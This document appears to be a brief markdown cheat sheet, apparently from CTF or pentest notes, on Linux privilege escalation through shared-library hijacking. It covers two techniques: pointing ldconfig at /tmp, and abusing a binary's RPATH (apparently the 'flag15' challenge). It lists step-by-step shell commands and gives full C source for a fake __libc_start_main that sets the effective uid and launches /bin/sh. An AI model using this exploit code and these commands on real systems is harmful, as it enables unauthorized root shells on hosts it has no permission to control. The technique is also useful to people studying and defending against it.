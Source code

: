 # Shared Library

## Steps

ldconfig

### 1) Identify shared libraries with ldd

    ldd /opt/binary

### 2) Create a library in /tmp and activate the path

    gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
    echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
    /opt/binary

RPATH

### 1)

    readelf -d flag15 | egrep "NEEDED|RPATH"

### 2) 

    ldd ./flag15 

### 3) By copying the lib into /var/tmp/flag15/ it will be used by the program in this place as specified in the RPATH variable.

    cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/
    ldd ./flag15

### 4) Then create an evil library in /var/tmp with 

    gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6

exploit.c content

    #include<stdlib.h>
    #define SHELL "/bin/sh"
    
    int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
    {
     char *file = SHELL;
     char *argv[] = {SHELL,0};
     setresuid(geteuid(),geteuid(), geteuid());
     execve(file,argv,0);
    }
